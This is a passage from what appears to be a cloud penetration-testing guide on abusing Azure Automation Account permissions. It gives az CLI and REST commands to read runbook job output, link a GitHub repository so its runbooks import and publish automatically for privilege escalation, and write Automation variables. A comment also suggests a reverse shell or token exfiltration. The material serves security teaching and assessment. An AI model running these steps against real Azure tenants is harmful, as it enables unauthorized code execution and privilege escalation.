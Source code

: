 ```bash
  }'

# Get the output (a different permission is needed here, but you could get a revershell or exfiltrate the token to avoid needing this permission)
az rest --method get --url "https://management.azure.com/subscriptions/9291ff6e-6afb-430e-82a4-6f04b2d05c7f/resourceGroups/Resource_Group_1/providers/Microsoft.Automation/automationAccounts/autoaccount1/runbooks/AzureAutomationTutorialWithIdentity/draft/testJob/streams?api-version=2019-06-01"
```

### `Microsoft.Automation/automationAccounts/sourceControls/write`, (`Microsoft.Automation/automationAccounts/sourceControls/read`)

This permission allows the user to **configure a source control** for the Automation Account using a commands such as the following (this uses Github as example):

```bash
az automation source-control create \
    --resource-group <res-group> \
    --automation-account-name <automation-account-name> \
    --name RemoteGithub \
    --repo-url https://github.com/carlospolop/gh-runbooks.git \
    --branch main \
    --folder-path /runbooks/ \
    --publish-runbook true \
    --auto-sync \
    --source-type GitHub \
    --token-type PersonalAccessToken \
    --access-token github_pat_11AEDCVZ<rest-of-the-token>
```

This will automatically import the runbooks from the Github repository to the Automation Account and with some other permission to start running them it would be **possible to escalate privileges**.

Moreover, remember that for source control to work in Automation Accounts it must have a managed identity with the role **`Contributor`** and if it's a user managed identity the cleint id of the MI must be specified in the variable **`AUTOMATION_SC_USER_ASSIGNED_IDENTITY_ID`**.

> [!TIP]
> Note that it's not possible to change the repo URL of a source control once it's created.

### `Microsoft.Automation/automationAccounts/variables/write`

With the permission **`Microsoft.Automation/automationAccounts/variables/write`** it's possible to write variables in the Automation Account using the following command.

```bash
az rest --method PUT \
--url "https://management.azure.com/subscriptions/<subscription-id>/resourceGroups/<res-group>/providers/Microsoft.Automation/automationAccounts/<automation-account-name>/variables/<variable-name>?api-version=2019-06-01" \
--headers "Content-Type=application/json" \
--body '{
    "name": "<variable-name>",
    "properties": {
        "description": "",
        "value": "\"<variable-value>\"",
        "isEncrypted": false
    }
}'
```
